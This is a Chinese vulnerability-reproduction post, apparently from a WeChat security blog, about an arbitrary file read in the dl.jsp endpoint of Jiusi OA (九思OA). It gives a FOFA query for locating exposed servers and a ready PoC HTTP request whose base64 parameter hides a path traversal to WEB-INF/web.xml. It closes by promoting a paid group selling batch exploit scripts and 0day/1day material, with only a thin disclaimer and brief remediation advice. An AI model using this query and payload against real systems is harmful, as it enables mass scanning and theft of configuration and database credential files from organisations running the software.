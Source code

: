 #  「漏洞复现」九思OA dl.jsp 任意文件读取漏洞   
冷漠安全  冷漠安全   2024-11-18 04:37  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0pFeDPJNnYaE7pYibBLQrUbLZwqelcotCqhYf0seBKfHroSUm8XuHyka5I3SmicWcJYUpZbFmxJCZ1Q/640?wx_fmt=gif&from=appmsg "")  
  
**0x01 免责声明**  
  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
0x02  
  
**产品介绍**  
  
九思OA产品，由北京九思协同软件有限公司（简称九思软件）开发，是一款面向企事业单位和政府机关的高端协同办公系统。致力于“打造管理神器，释放组织潜能”，为客户的信息化、数字化和智能化转型提供优质的方案、产品和服务。它融合了多种管理思想和OA接口技术，旨在帮助企业打破管理边界、整合信息孤岛，形成有序、实时、规范、开放、高效率、低成本、柔性、有凝聚力的管理环境和一体化的技术支撑环境。  
  
0x03  
  
**漏洞威胁**  
  
北京九思协同办公软件dl.jsp接口处存在任意文件读取漏洞，攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。  
  
0x04  
  
**漏洞环境**  
  
FOFA:  
```
body="/jsoa/login.jsp"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qXsX4dYS6ia3BK0S1NhkkkO7zzO5pIPbFHibTwCVzQ8DU9XfwJssNcL7v4ufolIlibiakyYrxOAEI0eA/640?wx_fmt=png&from=appmsg "")  
  
  
0x05  
  
**漏洞复现**  
  
PoC  
```
POST /jsoa/dl.jsp?JkZpbGVOYW1lPS4uLy4uLy4uL1dFQi1JTkYvd2ViLnhtbCZwYXRoPS9h HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qXsX4dYS6ia3BK0S1NhkkkOMbGytee9XYJpxvCIzviajs22gKylE5jWQr9M8pkNEIZSGtTyrdTbN1g/640?wx_fmt=png&from=appmsg "")  
  
  
0x06  
  
**批量脚本验证**  
  
Nuclei验证脚本已发布  
知识星球：冷漠安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qXsX4dYS6ia3BK0S1NhkkkOYjeU8JPcUX8rTiboeRWsSzwlicCokxHnVfViakic26Ff06aXuwpNDkhKlg/640?wx_fmt=png&from=appmsg "")  
  
  
0x07  
  
**修复建议**  
  
对用户传入的参数进行限制。  
  
通过防火墙等安全设备设置访问策略，设置白名单访问。  
  
如非必要，禁止公网访问该系统。  
  
0x08  
  
**加入我们**  
  
漏洞详情及批量检测POC工具请前往知识星球获取  
  
知识星球：冷漠安全交个朋友，限时优惠券：加入立减25星球福利：每天更新最新漏洞POC、资料文献、内部工具等  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qXsX4dYS6ia3BK0S1NhkkkOhspIiacfC7krUXProCPOicA2lxBT6q51iaYzJOmvibZrCQiciaVIZTriay1sQ/640?wx_fmt=png&from=appmsg "")  
  
  
「星球介绍」：  
  
本星球不割韭菜，不发烂大街东西。欢迎进来白嫖，不满意三天退款。  
  
本星球坚持每天分享一些攻防知识，包括攻防技术、网络安全漏洞预警脚本、网络安全渗透测试工具、解决方案、安全运营、安全体系、安全培训和安全标准等文库。  
  
本星主已加入几十余个付费星球，定期汇聚高质量资料及工具进行星球分享。  
  
  
「星球服务」：  
  
  
加入星球，你会获得：  
  
  
♦ 批量验证漏洞POC脚本  
  
  
♦ 0day、1day分享  
  
  
♦ 汇集其它付费星球资源分享  
  
  
♦ 大量的红蓝对抗实战资源  
  
  
♦ 优秀的内部红蓝工具及插件  
  
  
♦ 综合类别优秀Wiki文库及漏洞库  
  
  
♦ 提问及技术交流  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0qXsX4dYS6ia3BK0S1NhkkkOAL44NJMiaXHcagph6GV8HVb9d09ppgNLqicqsGIwGMA3bPSKzvaVwekA/640?wx_fmt=gif&from=appmsg "")  
  
  
